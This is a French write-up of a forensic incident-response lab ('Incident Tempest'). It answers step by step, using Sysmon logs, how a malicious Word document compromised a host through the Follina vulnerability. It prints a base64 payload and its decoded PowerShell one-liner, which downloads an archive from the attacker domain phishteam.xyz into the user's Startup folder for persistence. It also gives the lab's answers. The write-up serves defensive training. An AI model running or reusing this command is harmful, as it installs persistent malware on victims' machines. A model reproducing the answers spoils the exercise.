







# Incident Tempest

Dans cet incident, vous jouez le rôle d'un **Incident Responder** suite à une alerte triée par l'un des analystes de votre SOC. L'analyste a confirmé que l'alerte est de sévérité **CRITICAL** et qu'elle nécessite une investigation approfondie.

D'après l'analyste SOC, l'intrusion a commencé par un **document malveillant**. Il a aussi rassemblé les informations essentielles générées par l'alerte :

- Le document malveillant a une extension **`.doc`**.
- L'utilisateur a téléchargé le document malveillant via **`chrome.exe`**.
- Le document malveillant a ensuite exécuté une **chaîne de commandes** pour obtenir l'exécution de code.

## Guide d'investigation

Pour vous aider, vous pouvez vous appuyer sur l'aide-mémoire rédigé par l'équipe pour ce scénario :

- Commencez par les événements générés par **Sysmon**.
- **EvtxECmd**, **Timeline Explorer** et **SysmonView** permettent d'interpréter les logs Sysmon.
- Suivez les **processus enfants de `WinWord.exe`**.
- Utilisez des filtres comme **`ParentProcessID`** ou **`ProcessID`** pour établir la relation entre les processus.
- Concentrez-vous sur les événements Sysmon suivants pour corréler l'activité générée par le document malveillant :
  - **Event ID 1** : création de processus (Process Creation)
  - **Event ID 22** : requêtes DNS (DNS Query)

---

### Question :

1 - L'utilisateur de cette machine a été compromis par un document malveillant. Quel est le nom de fichier du document ?

Pour l’analyse, on exporte d’abord le journal .evtx en CSV avec l'outil EvtxECmd.


 
On met un flitre sur chrome.exe et .doc


réponse : free_magicules.doc

2 - Quel est le nom de l'utilisateur et de la machine compromis ? - Format : nom d'utilisateur-nom de la machine



réponse : benimaru-TEMPEST

3 - Quel est le PID du processus Microsoft Word ayant ouvert le document malveillant ?





réponse : 496

4 - D'après les journaux Sysmon, quelle est l'adresse IPv4 vers laquelle est résolu le domaine malveillant utilisé dans la question précédente ?

On convertit le fichier sysmon.etvx en sysmon.xml pour pouvoir utiliser l'outil SysmonView :



réponse : 167.71.199.191

5 - Quelle est la chaîne encodée en base64 présente dans la charge utile malveillante exécutée par le document ?

On utilise un filtre sur le Parent ProcessID96 et on retrouve la chaine en base64 :



réponse : JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==



# Analyse de la commande PowerShell : persistance via le dossier Démarrage

Commande observée : 

```powershell
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

Décomposition :

| # | Commande | Action |
|---|---|---|
| 1 | `$app=[Environment]::GetFolderPath('ApplicationData')` | Récupère le chemin `%APPDATA%` de l'utilisateur (`C:\Users\<user>\AppData\Roaming`). |
| 2 | `cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"` | Se place dans le dossier Démarrage de l'utilisateur. Tout ce qui s'y trouve est lancé automatiquement à chaque ouverture de session. |
| 3 | `iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip` | Télécharge (`Invoke-WebRequest`) une archive depuis le domaine de l'attaquant. |
| 4 | `Expand-Archive .\update.zip -DestinationPath .` | Décompresse l'archive directement dans le dossier Démarrage. |
| 5 | `rm update.zip` | Supprime l'archive pour laisser moins de traces. |

La charge contenue dans `update.zip` s'exécutera **à chaque connexion de l'utilisateur** : c'est un mécanisme de **persistance**.

6 - Quel est le numéro CVE de l'exploit utilisé par l'attaquant pour parvenir à une exécution de code à distance ?

Sur la photo de la question 5, on peut voir que l'outil msdt.exe est utilisé.

En faisant des recherche, la CVE qui correspond à cette exploit est CVE-2022-30190 connu sous le nom de Follina.



réponse : 2022-30190


